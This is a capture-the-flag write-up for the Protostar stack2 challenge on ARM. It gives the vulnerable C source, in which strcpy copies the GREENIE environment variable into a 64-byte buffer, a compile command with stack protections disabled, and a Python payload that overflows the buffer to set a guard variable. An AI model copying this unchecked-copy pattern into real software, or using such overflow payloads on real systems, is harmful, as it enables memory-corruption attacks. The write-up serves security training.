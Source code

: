 ## Protostar ARM ./stack2


#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

#### _Let's start_

This challenge is pretty similar to the challange `stack0` except for:
* Data is passed via an environment variable
* The value of the variable `GREENIE`  has to be modified with a specific value `0x0d0a0d0a`


Let's compile
```c
gcc -g -fno-stack-protector -z execstack -no-pie -o stack2 stack2.c
```
We can use a similar workaround from the challenge `stack0` but also in this case, after that we fill the buffer variable with the char 'A', we will write as 65th byte the value checked in the if branch (little endian) and this value will be passed via an environment variable called `GREENIE`.

So, let's create an environment variable called `GREENIE` which contains our payload and then we execute the binary.

```c
pi@raspberrypi:~/protostar/stack2 $ GREENIE=`python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'"` ./stack2
you have correctly modified the variable
```
